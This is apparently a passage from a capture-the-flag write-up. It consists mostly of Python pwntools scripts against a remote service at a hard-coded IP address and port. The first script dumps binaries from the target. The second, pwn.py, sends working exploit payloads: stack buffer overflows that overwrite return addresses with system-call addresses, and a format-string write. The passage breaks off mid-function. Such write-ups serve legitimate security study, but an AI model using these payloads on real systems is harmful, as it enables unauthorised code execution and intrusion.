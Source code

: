 ```python
        f.write(res2)
        f.write(res3)

def dump_ls():
    p.sendline("cd bin")
    p.sendline("cat ls")
    with open("ls", "wb") as f:
        # res = p.recv(0x5b4)
        # f.write(res)
        for i in range(0x1e):
            res = p.recv(0x1000)
            f.write(res)
        res = p.recv(0xe78)
        f.write(res)

p.sendlineafter("(y/n) ", 'y')
dump_next()

p.sendline("cd files")
dump_city()
dump_hotel()
dump_snow()
dump_home()
dump_world()

p.interactive()
```



### pwn.py

```python
#!/usr/bin/python
from pwn import *
context.log_level = 'debug'

p = remote('123.57.131.167', 22457)

def pwn_hotel():
    p.sendline('./next')
    system = 0x4006B6
    payload = 'a'*0x38
    payload += p64(system)
    p.sendlineafter("you?\n", payload)

def pwn_snow():
    p.sendline('./next')
    payload = '%1515c%43$hn'
    p.sendlineafter('you?\n', payload)

def pwn_home():
    p.sendline('./next')
    system = 0x400896
    p.sendlineafter('go?\n', 'bedroom')
    p.sendlineafter('go?\n', 'bedroom')
    p.sendlineafter('name: ', 'a\x00'*8+p64(system))
    p.sendlineafter('go?\n', 'a')


def create(size, name, ac=True):
    payload = 'create ' + str(size) + ' ' + name
    if ac:
        p.sendlineafter('accept\n', payload)
```